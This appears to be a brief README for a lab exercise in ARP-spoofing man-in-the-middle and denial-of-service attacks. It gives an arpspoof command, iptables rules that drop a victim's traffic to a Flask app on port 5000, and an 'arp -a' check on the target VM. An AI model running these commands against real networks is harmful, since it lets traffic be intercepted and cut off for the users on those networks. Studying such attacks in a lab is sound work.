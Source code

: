 # Man-in-the-Middle and DoS attack
 
## Command to Start ARP Spoof
```bash
sudo arpspoof -i ens33 -t 10.0.0.45 -r 10.0.0.133
```
## CCommands to Filter Out Packets

These commands drop packets for and from the victim, specifically targeting the Flask application:
```bash
sudo iptables -A FORWARD -s 10.0.0.133 -d 10.0.0.45 -p tcp --sport 5000 -j DROP
sudo iptables -A FORWARD -s 10.0.0.45 -d 10.0.0.133 -p tcp --dport 5000 -j DROP
```

## Command to Verify ARP Spoof on the Target VM

Run the following command on the target VM to check if an ARP spoof has occurred:
```bash
arp -a
```
